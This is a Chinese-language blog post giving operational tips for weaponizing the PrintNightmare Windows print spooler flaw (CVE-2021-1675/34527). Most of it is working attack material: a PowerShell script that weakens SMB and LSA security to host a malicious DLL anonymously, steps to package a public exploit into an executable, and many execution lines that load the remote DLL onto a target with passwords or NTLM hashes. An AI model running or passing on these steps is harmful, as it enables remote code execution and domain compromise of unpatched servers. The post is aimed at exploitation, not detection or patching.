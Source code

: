 ```yaml
---
title: PrintNightmare 实战利用Tips
date: 2022-11-13 3:34:50
categories: 
- 漏洞
tags:
- 漏洞复现
- PrintNightmare
- CVE-2021-1675
- CVE-2021-34527
- 武器化
---
```

# **概述**

**CVE-2021-1675 / CVE-2021-34527 这两个洞本质上就是一个洞，只是因为修复的问题分配了两个编号。具体的漏洞分析就不赘述了，很早就有人发过，没必要炒冷饭，这里只总结下实际使用时可能出现的问题，以及很多poc中不会提到的细节**

## 复现攻击环境

### 注意事项

#### 1.域相关

目标机器为域内Windows Server机器时，攻击机必须为同一域内的机器；目标机器为非域环境Windows Server机器时，攻击机器为目标机器可以访问到的另一机器即可

> 加入域后的Windows系统访问外部资源会携带已登录的域用户凭证，所以未加入域且未提前指定凭据的的SMB就无法访问。因此攻击域内机器有此限制

#### 2.SMBv1

攻击机器为Windows Server 2019及更高版本时，需要执行 `Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol`并重启去开启SMBv1，否则有可能出现rpc_s_access_denied的问题，攻击机器为2016及更低版本的系统时，可以直接使用 `Set-SmbServerConfiguration -EnableSMB1Protocol $true`开启SMBv1的支持

## 步骤

### 1.准备payload

在攻击机器创建C:\share文件夹，并将dll放入其中（此路径可根据需求修改，修改后下一步脚本自行对应修改）

### 2.开启SMB匿名共享

```powershell

#修改路径权限，使所有人可读
icacls C:\share\ /T /grant Anonymous` logon:F
icacls C:\share\ /T /grant Everyone:F
#创建名称为share路径为C:\share的SMB共享
New-SmbShare -Path C:\share -Name share -FullAccess 'ANONYMOUS LOGON','Everyone'
#启用guest用户
net user guest /active:yes
#覆盖已有的NullSessionPipes配置
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
#设置可以匿名访问共享
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
#设置Everyone权限包含匿名登录用户
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
#设置任何用户都可以通过网络获取本机的信息
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
#提取本地安全组策略
secedit /export /cfg gp.inf /quiet
#修改组策略中的指定权限
(Get-Content gp.inf) -replace "SeDenyNetworkLogonRight = Guest","SeDenyNetworkLogonRight = " | Set-Content "gp.inf"
#导入本地安全组策略
secedit /configure /db gp.sdb /cfg gp.inf /quiet
#更新本地安全组策略
CMD.EXE /C "gpupdate/force"
#清理文件
CMD.EXE /C "del gp.inf"
CMD.EXE /C "del gp.sdb"
```

注：此脚本修改自[Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer)

### 3.准备exp

#### 选择exp

推荐exp为[CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)，主要优势在于可以使用hash进行攻击，现在越来越难搞到密码了，hash的场景更多

因为大部分目标环境不会有python环境，所以最好打包为exe使用

#### 打包exe

打包使用Windows 7机器，安装[Python3.8](https://www.python.org/ftp/python/3.8.10/python-3.8.10-amd64.exe)，[Git](https://github.com/git-for-windows/git/releases/download/v2.38.1.windows.1/Git-2.38.1-64-bit.exe)，之后执行以下命令

```bash
git clone https://github.com/cube0x0/impacket
cd impacket
certutil -urlcache -split -f https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py CVE-2021-1675.py
pip3 install six pycryptodomex pyasn1 pyinstaller
pyinstaller --clean --onefile CVE-2021-1675.py
```

生成的文件在`\impacket\dist\CVE-2021-1675.exe`

### 4.执行

示例：

```bash
CVE-2021-1675.exe hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"
```
